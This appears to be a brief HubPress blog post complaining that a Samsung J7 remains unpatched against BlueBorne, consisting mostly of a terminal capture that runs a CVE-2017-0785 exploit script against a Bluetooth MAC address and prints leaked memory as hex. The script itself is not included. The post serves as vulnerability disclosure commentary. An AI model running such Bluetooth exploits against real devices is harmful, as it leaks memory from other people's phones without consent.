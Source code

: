 // = Your Blog title
// See https://hubpress.gitbooks.io/hubpress-knowledgebase/content/ for information about the parameters.
// :hp-image: /covers/cover.png
// :published_at: 2019-01-31
// :hp-tags: HubPress, Blog, Open_Source,
// :hp-alt-title: My English Title
= "Happy" to see that Samsung doesn't give a shit about Blueborne.

:hp-tags: Samsung, J7, BlueBorne
`
─[$]› python CVE-2017-0785.py TARGET=28:27:BF:3A:17:8A

[+] Exploit: Done

\x03\x00\x00\x00+\x00\x00    \x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x04\x00\x00\x05\x00\x00\x06\x00\x00\x07\x00\x0\x00\x00    \x00    

00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
*

00000050  00 00 00 00  00 02 00 01  ea 3f 01 00  00 00 00 00  │····│····│·?··│····│

00000060  00 00 75 30  00 00 00 08  f3 95 73 88  ce 93 12 b7  │··u0│····│··s·│····│
...
`